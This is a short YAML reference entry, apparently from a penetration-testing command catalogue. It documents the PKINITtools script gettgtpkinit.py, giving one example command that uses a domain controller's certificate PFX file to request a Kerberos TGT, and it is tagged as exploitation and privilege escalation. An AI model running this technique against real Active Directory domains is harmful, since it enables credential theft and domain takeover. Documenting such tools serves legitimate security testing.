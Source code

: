 ```yaml
---
description: |
  PKINIT gettgtpkinit.py request a TGT using a PFX file, either as file or as base64 encoded blob, or PEM files for cert+key. This uses Kerberos PKINIT and will output a TGT into the specified ccache. It will also print the AS-REP encryption key which you may need for the getnthash.py tool. 

  Command Reference:

    Domain: test.local

    Host that you got the certificate: DC01

    PFX file: crt.pfx

    PFX file password: password123

    TGT requested: out.ccache

command: |
  python3 gettgtpkinit.py test.local/DC01\$ -cert-pfx crt.pfx -pfx-pass password123 out.ccache
items:
  - Username
  - Password
  - PFX
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/dirkjanm/PKINITtools
  - https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/
---
```

